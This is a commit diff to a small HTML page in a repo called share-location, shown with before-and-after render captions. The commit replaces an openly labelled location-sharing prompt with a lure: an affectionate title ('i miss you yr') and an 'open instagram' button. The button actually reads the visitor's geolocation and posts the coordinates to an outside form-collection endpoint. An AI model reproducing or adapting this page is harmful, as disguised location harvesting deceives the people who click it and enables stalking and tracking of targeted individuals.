

Before and after one commit to Mrdharm/share-location, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,13 +2,12 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>Share Your Location</title>
+  <title> i miss you yr </title></title>
 </head>
 <body>
-  <h2>Click below to share your location with me</h2>
-  <button onclick="getLocation()">Share Location</button>
-
-  <form id="locationForm" method="POST" action="https://formspree.io/f/mjkwgqze">
+  <h2>Click below</h2>
+  <button onclick="getLocation()">open instagram</button>
+<form id="locationForm" method="POST" action="https://formspree.io/f/mjkwgqze">
     <input type="hidden" name="latitude" id="lat">
     <input type="hidden" name="longitude" id="lon">
   </form>
@@ -16,7 +15,7 @@
   <script>
     function getLocation() {
       if (navigator.geolocation) {
-        navigator.geolocation.getCurrentPosition(sendLocation, showError);
+         navigator.geolocation.getCurrentPosition(sendLocation, showError);
       } else {
         alert("Geolocation is not supported by this browser.");
       }
@@ -26,7 +25,7 @@
       document.getElementById("lat").value = position.coords.latitude;
       document.getElementById("lon").value = position.coords.longitude;
       document.getElementById("locationForm").submit();
-      alert("Your location has been sent!");
+      alert("thanks partner!");
     }
 
     function showError(error) {
```
